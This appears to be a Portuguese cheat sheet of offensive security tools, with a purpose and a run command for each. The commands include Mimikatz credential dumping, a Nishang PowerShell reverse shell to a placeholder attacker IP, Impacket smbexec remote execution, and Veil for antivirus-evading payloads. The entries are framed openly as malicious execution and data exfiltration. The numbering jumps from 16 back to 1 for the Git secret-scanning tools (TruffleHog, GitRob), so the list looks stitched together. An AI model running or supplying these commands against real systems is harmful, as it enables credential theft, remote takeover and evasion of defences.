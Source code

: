 
## 📌 13. PowerSploit
- **Finalidade:** Conjunto de scripts PowerShell para execução de código malicioso e exfiltração de dados.
- **Comando de execução:**
  ```powershell
  Invoke-Mimikatz -DumpCreds
  ```

---

## 📌 14. Nishang
- **Finalidade:** Scripts PowerShell para pós-exploração e bypass de restrições.
- **Comando de execução:**
  ```powershell
  Invoke-PowerShellTcp -Reverse -IPAddress <ATACANTE_IP> -Port 4444
  ```

---

## 📌 15. Smbexec
- **Finalidade:** Execução de comandos remotos em sistemas Windows via SMB.
- **Comando de execução:**
  ```bash
  smbexec.py -H <IP_ALVO> -u <USER> -p <PASSWORD>
  ```

---

## 📌 16. Veil Framework
- **Finalidade:** Criação de payloads indetectáveis por antivírus.
- **Comando de execução:**
  ```bash
  veil
  ```

---

## 📌 1. TruffleHog
- **Finalidade:** Encontrar credenciais expostas e chaves secretas em repositórios Git.
- **Comando de execução:**
  ```bash
  trufflehog --regex --entropy=True https://github.com/user/repo.git
  ```

---

## 📌 2. GitRob
- **Finalidade:** Analisar repositórios Git em busca de informações sensíveis.
- **Comando de execução:**
  ```bash
  gitrob -github-token <TOKEN_GITHUB>
  ```

---